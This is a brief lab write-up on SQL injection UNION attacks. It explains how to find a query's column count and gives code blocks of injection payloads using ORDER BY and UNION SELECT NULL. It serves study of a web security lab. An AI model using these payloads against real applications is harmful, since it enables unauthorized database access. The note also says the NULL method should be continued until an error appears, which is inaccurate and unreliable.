 # Determining the number of columns required

Vadim Polovnikov | October 30, 2020
> Lab: **_SQL injection UNION attack, determining the number of columns returned by the query_**

---

Two ways of examining a number of columns used by a database:

1. Using ORDER BY clause

```sql
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
/*etc*/
```

Use the technique untill you get a SQL error.

2. Injecting NULL values

```sql
' UNION SELECT NULL--
' UNION SELECT NULL, NULL FROM DUAL /* in case of an Oracle db
' UNION SELECT NULL, NULL, NULL
/*etc*/
```

Use the technique untill you get a SQL error.

**Using both techniques you can identify the number of columns the database have.**
